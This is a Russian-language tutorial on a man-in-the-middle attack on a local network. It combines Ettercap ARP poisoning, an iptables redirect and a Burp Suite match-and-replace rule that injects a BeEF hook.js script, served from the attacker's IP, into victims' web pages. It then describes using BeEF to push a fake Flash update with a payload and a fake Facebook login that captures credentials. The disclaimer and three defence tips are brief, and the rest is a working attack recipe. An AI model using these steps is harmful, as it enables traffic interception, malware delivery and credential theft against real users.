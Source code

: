 <h1>(Ettercap, Burp Suite, BeEF). MITM. Часть 2. Использование Burp Suite в атаках MITM. Подцепление на BeEF.</h1>

<b>Материал предоставлен в ознакомительных и образовательных целях.</b><br>

<b><i>Содержание</i></b><br>
<a href="#introduction">1. Введение. Требования.</a><br>
<a href="#introtoxss">2. Понятие XSS.</a><br>
<a href="#prepare">3. Подготовка среды.</a><br>
<a href="#ettercap">4. Запускаем Ettercap.</a><br>
<a href="#burpsuite">5. Запускаем Burp Suite.</a><br>
<a href="#beef">5. Запускаем BeEF.</a><br>
<a href="#configureburpsuite">6. Продолжаем конфигурировать Burp Suite.</a><br>
<a href="#example">7. Работа с BeEF.</a><br>
<a href="#end">8. Подведение итогов. Рекомендации по защите. Полезные ссылки.</a><br>

<p><a name="introduction"></a></p>
<h2>Введение. Требования.</h2>
Рад приветствовать читателей. В этой статье мы разберем использование утилиты Burp Suite для атаки MITM. Вообще, данная утилита предназначена для тестирования веб-приложений (к которым мы вернемся позже), но ее можно использовать также много еще для чего. Как уже ранее было сказано, будет использовать в атаке MITM.<br><br>
<i>Если вы не читали первую статью про MITM, обязательно прочитайте ее перед этой. Там рассмотрены понятия атаки MITM и использование утилит Bettercap и net-creds.</i><br><br>


Требования:
<ul>
  <li>Иметь доступ к сети, в которой находится цель</li>
</ul>
<i>Примечание: </i> если у вас уже есть доступ к сети, вам не нужен Wi-Fi адаптер с поддержкой режима 
мониторинга. Главное быть просто подключенным к сети.


<p><a name="introtoxss"></a></p>
<h2>Понятие XSS.</h2>
XSS (Cross Site Scripting, получил аббревиатуру XSS, а не CSS, для избежания путаницы с CSS в HTML) - атака, которая заключается в том, чтобы запустить вредносный JavaScript на стороне пользователя. <br>
Уязвимости XSS делятся на три типа:
<ul>
  <li>
    <b>Stored XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: на доске объявлений в поле имя ввел &lt;script&gt;alert('Stored XSS')&lt;/script&gt; и теперь каждый раз, когда кто-то заходит на страницу его профиля, он видит на экране сообщение 'Stored XSS'
  </li>
  
  <li>
    <b>Reflected XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/store/product.php?id=&lt;script&gt;alert('ReflectedXSS')&lt;/script&gt;
  </li>
  
  <li>
    <b>DOM-Based XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/arictle/25/text.html#&lt;script&gt;alert('DOM-BasedXSS')&lt;/script&gt;
  </li>
</ul><br>
Приведенная выше информация на данный момент нам не особо будет нужна, т.к. безопасность веб-приложений у нас еще не скоро. Для общего развития, можно сказать.


<p><a name="prepare"></a></p>
<h2>Подготовка среды.</h2>
Чтобы было удобнее:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>

Установите BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">apt update && apt install beef-xss</pre>

<p><a name="ettercap"></a></p>
<h2>Запускаем Ettercap.</h2>
Включите форвард пакетов:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">echo "1" > /proc/sys/net/ipv4/ip_forward</pre>

Запустите Ettercap:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">ettercap -G</pre>

<ul>
  <li>Когда откроется окно Ettercap, выберите интерфейс, который хотите использовать и нажмите ОК.</li>
  <li>Нажмите на кнопку Show hosts (у нее иконка сервера)</li>
  <li>Нажмите на лупу для того, чтобы начать поиск хостов (если нужного не появилось, попробуйте еще раз)</li>
  <li>Выберите IP адрес роутера как цель 1</li>
  <li>Выберите IP адрес атакуемого как цель 2</li>
  <li>Нажмите на меню MITM</li>
  <li>Выберите ARP Poisoning, убедитесь, что стоит галочка Sniff remote connections и нажмите ОК</li>
</ul>

(в другом терминале) 
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>
Чтобы перенаправлять данные с порта 80 на 8080:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080</pre>


<p><a name="burpsuite"></a></p>
<h2>Запускаем Burp Suite.</h2>

Запустите Burp Suite.
<ul>
  <li>
    Во вкладке Proxy перейдите в подраздел Options
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;В разделе Proxy Listeners нажмите кнопку Add
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Bind to port укажите порт 8080
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Во вкладке Request Handling поставьте галочку “Support invisible proxying”
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Нажмите ОК
  </li>
  <li>
    Во вкладке Proxy перейдите в подраздел Intercept
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;Нажмите на Intercept is ON для того, чтобы выключить перехват и перевести кнопку в положение Intercept is OFF
  </li>
</ul>


<p><a name="beef"></a></p>
<h2>Запускаем BeEF.</h2>
Запускаем BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo beef-xss</pre>
При первом запуске потребует задать логин и пароль. Пароль должен отличаться от beef. Этот логин/пароль потребуется для входа в веб-интерфейс BeEF.


<p><a name="configureburpsuite"></a></p>
<h2>Продолжаем конфигурировать Burp Suite.</h2>
<ul>
  <li>Во вкладке Proxy перейдите в подраздел Options</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;Крутите вниз, пока не найдете Match and Replace</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;В этом разделе нажмите кнопку Add</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ставим тип Response body</li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Match: вписывайте
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;\/head&gt;</pre>
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Replace вписывайте:
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;script src=”192.168.0/1.x:3000/hook.js”&gt;&lt;/script&gt;&lt;/head&gt;</pre>
    где 192.168.0/1.x - ваш IP-адрес
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Поставьте галочку “Regex Match”
  </li>
</ul>

Ждите, пока атакуемый откроет страницу http://. Если вам нужно внедрять этот скрипт и на страницы https://, то единственный вариант - использовать Ettercap с модулем SSLStrip (который работает криво). Вариант использовать Bettercap вместо Ettercap - не вариант, т.к. Bettercap занимает порт 8080, хотя вы можете попробовать указать в Burp Suite другой порт и в iptables - также другой, не тестировал.


<p><a name="example"></a></p>
<h2>Работа с BeEF.</h2>
BeEF позволяет практически управлять браузером, когда открыта вкладка со скриптом. Можно показать фейковое уведомление об обновлении Flash Player, куда указать исполняемый файл с полезной нагрузкой, показать окно авторизации в Facebook (истекла сессия, введите логин/пароль), после чего он попадет вам в консоль и т.д.<br><br>

Подробнее читайте по ссылке Hackware: Базовое использование BeEF в полезных ссылках.


<p><a name="end"></a></p>
<h2>Подведение итогов. Рекомендации по защите. Полезные ссылки.</h2>
<h3>Полезные ссылки.</h3>
<ul>
  <li><a href="https://cisoclub.ru/rukovodstvo-po-osushhestvleniyu-cross-site-scripting-xss/" target="_blank">Hackware: руководство по осуществлению XSS атаки</a></li>
  <li><a href="https://ru.wikipedia.org/wiki/Межсайтовый_скриптинг" target="_blank">Википедия: межсайтовый скриптинг</a></li>
  <li><a href="https://hackware.ru/?p=784&PageSpeed=noscript" target="_blank">Hackware: Базовое использование BeEF</a></li>
</ul>

<h3>Рекомендации по защите.</h3>
<ul>
  <li>Не использовать открытые сети Wi-Fi</li>
  <li>Поддерживать безопасность личной сети Wi-Fi, иначе будет равноценна открытой сети</li>
  <li>Использовать расширение NoScript (<a href="https://chrome.google.com/webstore/detail/noscript/doojmbjmlfjjnbmnoijecmcbfeoakpjm" target="_blank">Chrome Web Store</a> | <a href="https://addons.mozilla.org/en-US/firefox/addon/noscript/" target="_blank">Firefox Browser Add-ons</a>)</li>
</ul>

Итак, мы познакомились с подцеплением на BeEF при помощи Burp Suite.<br><br>
<a href="../index">Назад к списку статей...</a>
